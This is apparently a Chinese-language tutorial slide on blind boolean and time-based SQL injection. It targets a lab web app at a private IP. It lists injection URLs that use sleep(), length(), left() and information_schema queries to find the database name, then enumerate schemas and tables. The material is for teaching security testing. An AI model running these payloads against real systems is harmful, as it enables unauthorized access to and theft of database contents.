

# Less-02_布尔注入_02
1.  http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and  if((select length(schema_name) from information_schema.schemata limit 0,1)>100,1,sleep(5))--+ 通过这个来查询数据库的长度，当然这个是每一个进行查询，在本节中我们查询的是当前的数据库，可以使用
2.  http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and  if((select length(database()))>2,1,sleep(5))--+这个是用来查询当前使用的数据库长度是多少的，最后知道这个数据库长度是5
3. http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and  left(database(),1) > ’s’--+ 使用大于号可以用来判断，但是在正式使用的时候，我们可以使用burpsuite进行辅助判断，加快速度，最快的当然是使用脚本，本次视频暂不示范。
注意： http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and  left(database(),1) > ’saaa’--+  请大家留意这个也是正确的，所以大家尽量使用一个字符来判断。
4.   http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and  left((select schema_name from information_schema.schemata limit 0,1),1)>’a’--+  这种使用limit的方法可以遍历所得数据库
5.  http://192.168.80.136/control/sqlinject/bool_injection.php?id=1‘ and  left((select table_name from information_schema.tables where table_schema=’webug‘ limit 0,1),1)>’a’--+  遍历里面的所有表
6. 剩下的就是遍历列名字，然后和字段的值，这个过程较为麻烦，可以使用脚本或sqlimap